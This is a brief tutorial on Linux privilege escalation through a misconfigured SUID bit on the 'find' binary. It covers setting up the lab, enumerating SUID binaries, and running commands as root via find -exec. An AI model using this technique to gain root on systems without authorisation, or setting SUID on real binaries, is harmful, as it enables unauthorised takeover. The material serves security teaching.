


# Improperly Configured SUID Binaries

## Introduction

The Set User ID (SUID) permission is a critical feature in Linux that empowers users to execute a file with the privileges of a specified user, typically the file's owner. When binaries or commands are configured with the SUID bit, they run with elevated privileges, allowing users to perform actions that would otherwise be restricted. This becomes particularly significant when accessing a system as a non-root user, as it opens avenues for privilege escalation.

The discovery of binaries with the SUID bit set can present opportunities for non-root users to execute these files with root-level permissions. Certain well-known Linux and Unix executables, when configured with the SUID bit, can become powerful tools for privilege escalation. Some notable examples include Bash, Cat, cp, echo, find, Less, More, Nano, Nmap, Vim, and others. Leveraging these binaries, users can escalate their privileges, gaining access to sensitive system resources and functionalities reserved for the root user.

On this instance, we will be using the **'find'** binary for privilege escalation.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
┌──(root㉿workstation)-[~]
└─> sudo adduser notroot
```


#### 2. Give SUID permission to 'find' command

```bash
┌──(root㉿workstation)-[~]
└─> chmod u+s /usr/bin/find
```


### **Exploitation**

#### 1. Switch or Login as 'notroot'

```bash
┌──(notroot㉿workstation)-[~]
└─>
```


#### 2. Enumerate all binaries having SUID permission

This command is used to enumerate and check all binaries with SUID permissions: *find / -perm -u=s -type f 2>/dev/null*

```bash
┌──(notroot㉿workstation)-[~]
└─> find / -perm -u=s -type f 2>/dev/null
```


Above result shows 'find' command has SUID bit enabled.

#### 3. Exploit: Execute any command within 'find' command

```bash
┌──(notroot㉿workstation)-[~]
└─> touch <file_name>

┌──(notroot㉿workstation)-[~]
└─> find <file_name> -exec <command> \;
```


## Video Demonstration

[](https://www.youtube.com/embed/cetPsoJYirA)


## Reference
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/


